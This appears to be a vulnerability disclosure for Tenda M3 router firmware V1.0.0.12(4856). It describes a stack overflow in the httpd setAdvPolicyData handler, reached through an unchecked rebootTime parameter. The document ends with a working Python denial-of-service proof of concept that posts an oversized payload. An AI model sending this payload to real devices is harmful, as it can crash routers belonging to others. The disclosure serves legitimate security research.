


## Overview

- The device's official website: https://www.tenda.com.cn/product/M3.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3133.html

## Affected version

V1.0.0.12(4856)

## Vulnerability details

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formSetAdvancePolicy` function, which can be accessed via the URL `goform/setAdvPolicyData`




When the POST parameter `policyType` is equal to "reboot", program will enter function `sub_64b5c`.



In this function, it copies POST parameter `rebootTime` to stack buffer without checking its length, causing a stack overflow vulnerability.

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"policyType": b"reboot",
    b"rebootTime": b"12:" + b'A'*0x400
}
cookies = {
    b"user": "admin"
}
res = requests.post("http://127.0.0.1/goform/setAdvPolicyData", data=data, cookies=cookies)
print(res.content)
```

